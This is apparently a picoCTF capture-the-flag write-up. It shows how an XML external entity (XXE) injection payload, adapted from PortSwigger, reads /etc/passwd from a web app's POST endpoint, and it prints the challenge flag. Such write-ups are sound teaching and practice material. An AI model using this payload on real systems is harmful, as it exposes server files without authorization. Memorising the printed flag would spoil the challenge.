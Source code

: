 When we watch Firefox's Network Monitor and click a detail, we see a post method sent:

![image](images/20230327205640.png)

The request payload is in xml format, potentially leading to XXE (XML external entity) injection. We can try a simple payload described in [portswigger's post](https://portswigger.net/web-security/xxe) on the topic:

```
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
```

modifying our own payload:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY abc SYSTEM "file:///etc/passwd"> ]><data><ID>&abc;</ID></data>
```

We can resend our request using Firefox's Network Manager again, and replace the body contents with our newly modified payload. In the response tab, we see the contents of `/etc/passwd` as well as our flag:

![image](images/20230327210246.png)

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}

In an interesting twist of annoyance, the xxe injection fails if you use the entity term 'xxe', as is done in portswigger's example.  After renaming the entity to 'abc', the xxe exploit worked effortlessly.


